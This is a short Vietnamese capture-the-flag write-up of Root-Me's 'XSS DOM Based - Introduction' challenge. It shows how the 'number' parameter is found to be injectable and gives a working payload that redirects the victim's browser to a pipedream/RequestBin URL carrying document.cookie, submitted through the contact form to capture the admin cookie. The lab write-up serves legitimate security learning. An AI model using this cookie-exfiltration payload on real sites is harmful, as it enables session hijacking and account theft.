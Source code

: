 # [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

<img src="./media/image1.png" style="width:6.5in;height:2.34861in" alt="Text Description automatically generated" />

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload `‘;alert(1)//` thì thấy thành công:

<img src="./media/image2.png" style="width:6.5in;height:1.01875in" alt="Graphical user interface, text, application Description automatically generated" />

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ https://requestbin.in): `';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//`

<img src="./media/image3.png" style="width:6.5in;height:0.8375in" alt="Graphical user interface, text, application Description automatically generated" />

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

<img src="./media/image4.png" style="width:6.5in;height:1.55972in" alt="Graphical user interface, text, application Description automatically generated" />

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

<img src="./media/image5.png" style="width:6.5in;height:1.64444in" alt="Graphical user interface, application, Teams Description automatically generated" />

- Flag: "****************************"
